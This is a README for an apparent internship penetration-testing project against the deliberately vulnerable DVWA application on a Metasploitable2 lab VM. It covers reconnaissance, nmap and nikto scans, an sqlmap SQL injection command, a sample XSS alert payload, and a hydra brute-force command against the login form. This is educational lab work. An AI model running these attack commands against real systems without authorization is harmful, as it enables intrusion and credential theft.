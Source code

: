 Name: Akash Anil Horambe

Company: CODTECH IT SOLUTIONS

ID : CT08DS5369

Domain: Cyber Security & Ethical Hacking

Duration: July to August 2024

Mentor: Muzammil Ahmed

---

# Penetration Testing on Metasploitable2 DVWA Web Application

This project involves performing penetration testing on a Metasploitable2 DVWA (Damn Vulnerable Web Application) web application to identify and exploit security vulnerabilities such as SQL injection, cross-site scripting (XSS), and insecure authentication mechanisms.

## Table of Contents
- [Overview](#overview)
- [Setup Instructions](#setup-instructions)
- [Reconnaissance](#reconnaissance)
- [Port Scanning](#port-scanning)
- [Vulnerability Scanning](#vulnerability-scanning)
- [Exploitation](#exploitation)

## Overview

Metasploitable2 is a deliberately vulnerable Linux virtual machine intended for testing security tools and demonstrating common vulnerabilities. DVWA is a PHP/MySQL web application that is designed to be vulnerable to various web application attacks, making it a perfect candidate for learning and practicing penetration testing techniques.

## Setup Instructions

1. **Download and Install Metasploitable2:**
   - Download the Metasploitable2 VM from the official [SourceForge page](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).
   - Import the VM into your preferred virtualization software (e.g., VirtualBox or VMware).

2. **Configure Network Settings:**
   - Ensure the Metasploitable2 VM and your Kali Linux machine are on the same network. This can be done using Host-Only or NAT Network settings.

3. **Start Metasploitable2 VM:**
   - Boot up the Metasploitable2 VM.

4. **Identify IP Address:**
   - Identify the IP address of the Metasploitable2 VM using the command: `ip a`

## Reconnaissance

1. **Identify the Target IP:**
   ```bash
   echo ip 192.168.40.129
   ```

2. **Perform Whois Lookup:**
   ```bash
   whois 192.168.40.129
   ```

3. **DNS Lookup:**
   ```bash
   nslookup 192.168.40.129
   ```

4. **Identify Web Server and Technologies:**
   ```bash
   whatweb 192.168.40.129
   ```

## Port Scanning

1. **Basic Nmap Scan:**
   ```bash
   nmap --help
   ```

2. **Comprehensive Nmap Scan:**
   ```bash
   nmap -sS -sV -O 192.168.40.129
   ```

## Vulnerability Scanning

1. **Run Nmap Vulnerability Scans:**
   ```bash
   nmap --script vuln 192.168.40.129
   ```

2. **Nikto Web Server Scan:**
   ```bash
   nikto -h http://192.168.40.129
   ```

## Exploitation

1. **SQL Injection:**
   - Test for SQL injection vulnerabilities by manipulating the URL parameters and observing the responses.
   - Use SQLMap to automate the detection and exploitation of SQL injection flaws.
     ```bash
     sqlmap -u "http://192.168.40.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs
     ```

2. **Cross-Site Scripting (XSS):**
   - Identify XSS vulnerabilities by injecting scripts into input fields and observing the output.
   - Example payload:
     ```html
     <script>alert('XSS')</script>
     ```

3. **Insecure Authentication Mechanisms:**
   - Test for weak passwords and brute force login attempts.
   - Use tools like Hydra for automating the brute force attacks.
     ```bash
     hydra -l admin -P /path/to/wordlist.txt 192.168.40.129 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
     ```

## Conclusion

This project demonstrates the process of performing penetration testing on a vulnerable web application using various tools and techniques. By identifying and exploiting vulnerabilities, we can understand the importance of securing web applications and the potential risks associated with these common security flaws.

**Note:** This README is intended for educational purposes only. Always obtain proper authorization before performing any penetration testing on a network or system that you do not own.

## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

